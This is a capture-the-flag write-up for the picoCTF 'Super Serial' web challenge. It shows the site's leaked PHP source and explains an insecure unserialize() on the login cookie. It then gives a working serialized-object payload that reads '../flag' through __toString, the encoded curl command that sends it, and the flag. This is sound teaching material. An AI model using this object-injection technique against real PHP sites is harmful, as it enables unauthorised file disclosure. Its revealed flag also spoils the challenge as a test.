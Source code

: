 # Super Serial

## Problem

> Try to recover the flag stored on this website <http://mercury.picoctf.net:3449/>

## Solution

1. Going to `robots.txt` shows that `admin.phps` is disallowed. This indicates that the `phps` extension is enabled within the php configuration for this webserver. Files with the `phps` extension contain php code but instead of running when they are accessed, they return an HTML representation of the literal pho code.

2. We can access `index.phps` to find the following:

    ```php
    <?php
    require_once("cookie.php");

    if(isset($_POST["user"]) && isset($_POST["pass"])){
        $con = new SQLite3("../users.db");
        $username = $_POST["user"];
        $password = $_POST["pass"];
        $perm_res = new permissions($username, $password);
        if ($perm_res->is_guest() || $perm_res->is_admin()) {
            setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
            header("Location: authentication.php");
            die();
        } else {
            $msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
        }
    }
    ?>
    ```

3. The above php code points us in the direction of `authentication.php`. Looking at `authentication.phps` shows the following:

    ```php
    <?php

    class access_log
    {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }

    require_once("cookie.php");
    if(isset($perm) && $perm->is_admin()){
        $msg = "Welcome admin";
        $log = new access_log("access.log");
        $log->append_to_log("Logged in at ".date("Y-m-d")."\n");
    } else {
        $msg = "Welcome guest";
    }
    ?>
    ```

4. The above php code points us in the direction of `cookie.php`. Looking at `cookie.phps` shows the following:

    ```php
    <?php
    session_start();

    class permissions
    {
        public $username;
        public $password;

        function __construct($u, $p) {
            $this->username = $u;
            $this->password = $p;
        }

        function __toString() {
            return $u.$p;
        }

        function is_guest() {
            $guest = false;

            $con = new SQLite3("../users.db");
            $username = $this->username;
            $password = $this->password;
            $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
            $stm->bindValue(1, $username, SQLITE3_TEXT);
            $stm->bindValue(2, $password, SQLITE3_TEXT);
            $res = $stm->execute();
            $rest = $res->fetchArray();
            if($rest["username"]) {
                if ($rest["admin"] != 1) {
                    $guest = true;
                }
            }
            return $guest;
        }

            function is_admin() {
                    $admin = false;

                    $con = new SQLite3("../users.db");
                    $username = $this->username;
                    $password = $this->password;
                    $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                    $stm->bindValue(1, $username, SQLITE3_TEXT);
                    $stm->bindValue(2, $password, SQLITE3_TEXT);
                    $res = $stm->execute();
                    $rest = $res->fetchArray();
                    if($rest["username"]) {
                            if ($rest["admin"] == 1) {
                                    $admin = true;
                            }
                    }
                    return $admin;
            }
    }

    if(isset($_COOKIE["login"])){
        try{
            $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
            $g = $perm->is_guest();
            $a = $perm->is_admin();
        }
        catch(Error $e){
            die("Deserialization error. ".$perm);
        }
    }

    ?>
    ```

5. PortSwigger has a great article that goes into detail about [deserialization vulnerabilities](https://portswigger.net/web-security/deserialization/exploiting). [This Medium article](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) gives a more step-by-step beginner guide.

6. The exploit is in this code block:

    ```php
    class access_log
    {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }

    if(isset($_COOKIE["login"])){
        try{
            $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
            $g = $perm->is_guest();
            $a = $perm->is_admin();
        }
        catch(Error $e){
            die("Deserialization error. ".$perm);
        }
    }
    ```

    We can store any object in the `login` cookie and it will be unserialized. One option is to exploit the `__construct` function, since this is ran immediately when the object is created. However, in both the `access_log` and `permissions` classes, there does not appear to be a valid gadget chain (see "Gadget chains" in [the PortSwigger article](https://portswigger.net/web-security/deserialization/exploiting)).

7. We can store a serialized `access_log` object in the `login` cookie with the `log_file` set to `../flag`. This object will be instantiated in the first line of the `try` block. However, the `access_log` class does not have an `is_guest` function so when the code try to run that function on the next line it will fail, thus jumping to the `catch` block. This catch block prints the value of `$perm`, which is our injected `access_log` object. By printing `$perm`, the `__toString` method of our `access_log` object is called, which displays the content of whatever filename (the value of `access_log`) was passed to it.

8. The php serialized `access_log` object looks like this: `O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`. Fore more details about this syntax, see [the aforementioned Medium article](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a). 

9. Let's encode that to base64 and url encode it using [CyberChef (click for recipe)](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')URL_Encode(true)&input=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9) to get: `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`

10. We can use cURL to access the `authentication.php` file with the correct cookie set: `curl mercury.picoctf.net:3449/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"`. This will print the error text and the flag: `Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}`

### Flag

`picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}`
